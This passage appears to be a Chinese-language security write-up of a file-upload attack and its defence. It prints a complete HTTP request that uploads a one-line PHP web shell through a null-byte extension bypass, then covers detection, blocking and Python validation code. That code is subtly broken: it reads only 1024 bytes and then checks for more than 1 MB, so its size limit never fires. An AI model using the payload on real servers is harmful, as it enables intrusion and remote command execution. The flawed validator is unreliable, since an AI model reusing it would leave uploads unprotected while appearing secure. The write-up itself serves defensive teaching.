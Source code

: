 进入后台后，攻击者通过代码审计发现隐晦文件上传接口（/internal/upload/secure/7b9c3d2e-8f5a-4c9b-a1d3-6e7f8a9b0c1d  
），该接口仅允许管理员访问，但未验证文件内容。攻击者通过构造特殊后缀（shell.php%00.jpg  
）绕过后缀检查，上传恶意PHP文件。WAF未检测到该payload（因后缀为.jpg  
）。上传后，攻击者访问/uploads/shell.php  
执行系统命令，控制服务器，并通过内网扫描工具获取其他内网漏洞和信息。  
  
- **数据包示例（文件上传绕过）**  
：  
```
POST /internal/upload/secure/7b9c3d2e-8f5a-4c9b-a1d3-6e7f8a9b0c1d HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php%00.jpg"
Content-Type: image/jpeg
<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```  
  
  
#### 防护方如何发现并阻断  
  
- **发现**  
：EDR检测到异常进程（如whoami  
）启动，SIEM捕获异常文件创建日志。  
  
- **阻断**  
：防火墙封禁攻击者IP，管理员通过堡垒机禁用上传接口。  
  
  
#### 暴露的可优化点  
  
- 文件上传接口仅依赖后缀检查，未验证文件内容。  
  
- WAF未检测%00截断或其他绕过技术。  
  
- 内网弱口令未修复。  
  
  
#### 防护方案  
  
1. **文件上传验证**  
：  
  
1.     - 验证文件内容，忽略后缀：  
```
from magic import Magic
def validate_upload(file):
    mime = Magic(mime=True)
    file_content = file.read(1024)
    if mime.from_buffer(file_content) not in ['image/png', 'image/jpeg']:
        raise ValueError("Invalid file type")
    if len(file_content) > 1024 * 1024:  # 限制1MB
        raise ValueError("File too large")
```  
  
    - 防御%00截断：  
```
def sanitize_filename(filename):
    if '\0' in filename:
        raise ValueError("Invalid filename")
    return filename.replace('%00', '')
```  
  